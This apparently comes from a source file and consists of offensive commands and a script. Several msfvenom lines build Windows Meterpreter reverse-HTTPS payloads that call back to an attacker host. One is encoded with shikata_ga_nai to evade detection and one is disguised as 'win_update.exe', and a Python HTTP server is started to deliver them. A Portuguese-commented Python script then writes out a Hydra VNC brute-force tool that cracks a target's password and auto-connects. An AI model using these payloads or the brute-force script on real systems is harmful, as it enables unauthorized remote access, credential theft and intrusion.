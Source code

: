 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Gerando o script pronto para brute force VNC + auto connect sem dependência de /mnt/data
script_content = """
import subprocess

ip_alvo = "192.168.1.84"  # Altere para o IP alvo
wordlist_path = "wordlist_atibaia.txt"  # Assuma que o arquivo estará no mesmo diretório

print(f"Iniciando brute force VNC contra {ip_alvo}...\\n")

# Executa brute force via hydra
comando = [
    "hydra",
    "-P", wordlist_path,
    "-t", "4",
    "-f",
    "-V",
    ip_alvo,
    "vnc"
]

resultado = subprocess.run(comando, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

# Se encontrar a senha no output do hydra
for linha in resultado.stdout.splitlines():
    if "login:" in linha or "host:" in linha:
        print("\\n====> Senha encontrada! Resultado:")
        print(linha)
        
        # Extrair a senha do resultado
        partes = linha.split()
        senha_encontrada = None
        for i, parte in enumerate(partes):
            if parte == "password:":
                senha_encontrada = partes[i+1]
                break

        if senha_encontrada:
            print(f"Tentando abrir conexão automática com vncviewer usando a senha: {senha_encontrada}")
            subprocess.Popen(["vncviewer", ip_alvo, "-passwd", senha_encontrada])
        else:
            print("Senha não pôde ser extraída automaticamente, verifique a saída manualmente.")
        break
else:
    print("Nenhuma senha encontrada ou tentativa falhou.")

print("Brute force VNC concluído.")
"""

with open("/mnt/data/bruteforce_vnc_ready.py", "w") as f:
    f.write(script_content)

print("Script pronto criado como 'bruteforce_vnc_ready.py'.")




